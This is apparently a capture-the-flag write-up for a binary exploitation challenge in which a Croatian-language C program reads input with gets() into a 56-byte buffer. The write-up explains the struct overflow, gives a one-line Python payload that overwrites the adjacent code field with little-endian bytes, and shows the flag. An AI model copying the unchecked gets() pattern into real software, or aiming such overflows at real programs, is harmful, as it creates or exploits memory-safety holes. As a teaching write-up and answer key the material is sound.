 # Secret Location

> Category: Binary Exploitation

> Points: 150

## Challenge Description

> translated: Ante is looking for a location to celebrate his birthday. He is planning to invite over 30 friends and therefore he isn't sure if a location as such exists that isn't booked. After some internet search, he managed to find an ideal restaurant, but it seems that the location is hidden. Can you help Ante find out the location so he could reserve the spots and celebrate his birthday?

> native: Ante traži lokaciju za proslavu svojeg rođendana. Međutim, planira pozvati preko 30 prijatelja pa nije siguran postoji li mjesto koje nije zauzeto, a prima toliki kapacitet ljudi. Nakon mukotrpnog pretraživanja interneta, uspio je pronaći idealan restoran, ali čini se da je lokacija skrivena. Možeš li pomoći Anti da otkrije lokaciju restorana kako bi mogao rezervirati mjesta i proslaviti svoj rođendan?

## Analysis

Let's look at the code again.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define FLAG_PATH "flag"
#define FLAG_SIZE 200

#define ODGOVOR_MAX 56
#define TOCAN_KOD 0x476b2336
#define KRIVI_KOD 0x4b895433

struct odgovor {
	char odgovor[ODGOVOR_MAX];
	uint32_t tajni_kod;
};

void ispisi_tajne_podatke()
{
	FILE *file;
	char flag[FLAG_SIZE];

	file = fopen(FLAG_PATH, "r");

	fgets(flag, sizeof flag, file);

	fclose(file);

	printf("%s\r\n", flag);
}

int main()
{
	struct odgovor tocan_odgovor, krivi_odgovor;

	tocan_odgovor.tajni_kod = TOCAN_KOD;
	krivi_odgovor.tajni_kod = KRIVI_KOD;
	
	puts("+--------------------------------------------------------------+");
	puts("Mislis da mozes saznati gdje se nalazimo? Testiraj svoje znanje.\r");
	puts("+--------------------------------------------------------------+");
	fflush(stdout);

	gets(krivi_odgovor.odgovor);

	if (krivi_odgovor.tajni_kod == TOCAN_KOD) {
		puts("Tocan odgovor!\r");
		ispisi_tajne_podatke();
	} else {
		puts("Krivi odgovor!\r");
	}

	puts("...\r");
	fflush(stdout);
	getchar();

	return 0;
}

```

Up in the defines, we have the correct code defined as `0x476b2336`. We need to overwrite the wrong_answer structure with the correct code value.

The app takes in an input of `odgovor`. That's a 56 character array.

We can just fill that with random letters or just A.

After that, we will overflow the input value into the secret_code field.

Since we have the hex written here, we can just use the little endian format and get it inside.

That means that we write the hex reversed, in 2-place increments.

The hex from above split: `47 6b 23 36`

We are writing: `\x36 \x23 \x6b \x47`

```py
print("A" * 56 + "\x36\x23\x6b\x47")
```

The result is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6#kG

And when we put it into our program we get the solution:

![decrypted](solution.PNG)

## FLAG

> CTF2021[323137855005]